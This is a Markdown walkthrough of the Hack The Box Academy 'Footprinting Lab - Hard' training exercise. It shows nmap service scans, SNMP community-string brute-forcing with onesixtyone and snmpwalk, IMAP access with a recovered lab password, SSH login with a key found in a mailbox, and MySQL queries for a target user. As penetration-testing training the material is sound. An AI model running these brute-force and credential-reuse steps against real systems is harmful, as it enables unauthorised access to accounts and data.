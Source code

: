 # Footprinting Lab - Hard

[Footprinting Lab - Hard](https://academy.hackthebox.com/module/112/section/1080)  

>The target server is an MX and management server for the internal network. 
>This server has the function of a backup server for the internal accounts in the domain. 
>Accordingly, a user named `HTB` was also created here, whose credentials we need to access.  

## Enumeration  

>Service discovery  

```
sudo nmap -p 22,110,143,993,995 -sCV -A -O 10.129.19.122
```  

>NMAP Output:

```
PORT    STATE SERVICE  VERSION
22/tcp  open  ssh      OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 3f:4c:8f:10:f1:ae:be:cd:31:24:7c:a1:4e:ab:84:6d (RSA)
|   256 7b:30:37:67:50:b9:ad:91:c0:8f:f7:02:78:3b:7c:02 (ECDSA)
|_  256 88:9e:0e:07:fe:ca:d0:5c:60:ab:cf:10:99:cd:6c:a7 (ED25519)
110/tcp open  pop3     Dovecot pop3d
|_pop3-capabilities: UIDL USER RESP-CODES STLS TOP CAPA AUTH-RESP-CODE SASL(PLAIN) PIPELINING
| ssl-cert: Subject: commonName=NIXHARD
| Subject Alternative Name: DNS:NIXHARD
| Not valid before: 2021-11-10T01:30:25
|_Not valid after:  2031-11-08T01:30:25
|_ssl-date: TLS randomness does not represent time
143/tcp open  imap     Dovecot imapd (Ubuntu)
| ssl-cert: Subject: commonName=NIXHARD
| Subject Alternative Name: DNS:NIXHARD
| Not valid before: 2021-11-10T01:30:25
|_Not valid after:  2031-11-08T01:30:25
|_imap-capabilities: more ENABLE AUTH=PLAINA0001 LOGIN-REFERRALS IDLE have ID Pre-login listed capabilities post-login STARTTLS LITERAL+ SASL-IR OK IMAP4rev1
|_ssl-date: TLS randomness does not represent time
993/tcp open  ssl/imap Dovecot imapd (Ubuntu)
| ssl-cert: Subject: commonName=NIXHARD
| Subject Alternative Name: DNS:NIXHARD
| Not valid before: 2021-11-10T01:30:25
|_Not valid after:  2031-11-08T01:30:25
|_imap-capabilities: ENABLE AUTH=PLAINA0001 LOGIN-REFERRALS IDLE more ID have Pre-login listed post-login capabilities LITERAL+ SASL-IR OK IMAP4rev1
|_ssl-date: TLS randomness does not represent time
995/tcp open  ssl/pop3 Dovecot pop3d
|_pop3-capabilities: CAPA AUTH-RESP-CODE SASL(PLAIN) USER RESP-CODES PIPELINING TOP UIDL
| ssl-cert: Subject: commonName=NIXHARD
| Subject Alternative Name: DNS:NIXHARD
| Not valid before: 2021-11-10T01:30:25
|_Not valid after:  2031-11-08T01:30:25
```  

### SNMP  

>Scan UDP ports and enumerate [SNMP service](https://academy.hackthebox.com/module/112/section/1075)  


```
sudo nmap -sU 10.129.19.122 -p 161 --script=snmp-brute -Pn --script-args snmp-brute.communitiesdb=/home/kali/Downloads/htb/academy/resources/snmpcommunities.txt
```  

![snmp Footprinting Lab Hard](/images/snmp-Footprinting-Lab-Hard.png)  

>Brute forcing the SNMP community string and Confirming that it is 'backup'.

```
onesixtyone -c /usr/share/seclists/Discovery/SNMP/snmp.txt 10.129.19.122
```  

>onesixtyone output results:  

```
10.129.19.122 [backup] Linux NIXHARD 5.4.0-90-generic #101-Ubuntu SMP Fri Oct 15 20:00:55 UTC 2021 x86_64
```  

>Footprinting the SNMP Service  

```
snmpwalk -c backup -v1 10.129.19.122
```  

![snmpwalk-Footprinting-Lab-Hard.png](/images/snmpwalk-Footprinting-Lab-Hard.png)  

>Discover the credentials for the user tom and the password `NMds732Js2761`.  

>Once we know a community string, we can use it with braa to brute-force the individual OIDs and enumerate the information behind them.  

```
sudo braa backup@10.129.19.122:.1.3.6.*
```  

## IMAP / POP3  

>Use the `Curl` command to perform Enumeration of the email services [IMAPS / POP3](https://academy.hackthebox.com/module/112/section/1073)  

```
curl -k 'imaps://10.129.19.122' --user tom:NMds732Js2761
```  

>Output confirm valid mail message items.

>Setup GUI `Evolution` Mail client to read emails in inbox.  

![evolution1-Footprinting-Lab-Hard][/images/evolution1-Footprinting-Lab-Hard.png)  

![evolution 2 Footprinting-Lab-Hard][/images/evolution2-Footprinting-Lab-Hard.png)  

![evolution 3 Footprinting Lab Hard][/images/evolution3-Footprinting-Lab-Hard.png)  

>Discover a SSH Key in the inbox of user `Tom` from `tech@inlanefreight.htb`  

![sshkey-in-mail-Footprinting-Lab-Hard](/images/sshkey-in-mail-Footprinting-Lab-Hard.png)  

## Privilege Escalation    

>Using obtained ssh key for tom to gain foothold.  

```
chmod 600 tom-key.txt
ssh tom@10.129.19.122 -i tom-key.txt
```  

>Identify permissions and group membership current user `tom`.

```
whoami
id
```  

### MySQL  

>Database enumeration with [mySQL](https://academy.hackthebox.com/module/112/section/1238)  
>Inside the ssh session as tom connect to the `mysql` service internallly.

```
mysql --user=tom -p
```  

>SQL Service enumeration to privilege escalate.  

```
show databases;
use users;
show tables;
select * from users where username like 'htb';
```  
